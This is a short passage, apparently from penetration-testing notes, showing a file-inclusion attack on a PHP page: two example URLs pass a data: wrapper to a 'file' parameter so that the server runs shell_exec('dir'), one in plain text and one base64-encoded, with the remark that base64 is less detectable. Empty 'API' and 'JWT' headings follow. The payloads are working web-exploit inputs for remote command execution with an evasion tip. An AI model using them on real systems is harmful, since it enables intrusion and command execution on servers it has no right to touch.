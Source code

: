 ```

Here follos example of base64 payload. Base64 is better as it is less detectable and causes less errors.

```
http://192.168.xxx.10/menu.php?file=data:text/plain,<?php echo shell_exec("dir") ?>

http://192.168.xxx.10/menu.php?file=data:text/plain;base64,PD9waHAgZWNobyBzaGVsbF9leGVjKCJkaXIiKSA/Pg==
```



## API

## JWT
